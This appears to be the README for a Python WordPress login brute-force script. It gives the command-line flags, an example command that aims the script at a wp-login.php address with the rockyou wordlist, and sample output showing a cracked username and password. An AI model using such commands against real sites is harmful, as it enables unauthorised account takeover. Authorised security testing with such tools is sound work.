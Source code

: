 # python-bruteforc 🔥🚀
python Bruteforce login script for wordpress 👻

* -p = file path to password list file 
* -u = valid username 
* -t = target address 

**target should should be look like this http://site.com/wp-login.php**

# example usage : 

$ python3 bf.py -u admin -p /usr/share/wordlist/rockyou.txt -t http://192.168.254.105/weblog/wp-login.php 

      ____      ____ _________  ____________  ____________                         
      \   \    /   / |_____   | |______     \ |_   ______|  
       \   \/\/   /  |     ___|   |    |   _/  |    ___|         
        \        /   |    |       |    |    \  |    |     
         \__/\__/    |____|       |_________/  |____|    

                ***********************
                * By : intrglctcMilk  *  
                *     -- @tmpts       * 
                *********************** 
     
     [+] Attacking [+]
     
    [+] **** PASSWORD FOUND ***** [+] =====> [wedgie57] for user unclestinky
    [-] Time lapsed : 0.792555570602417 seconds  [-] 
    [-] Number of attempts : 15 [-]



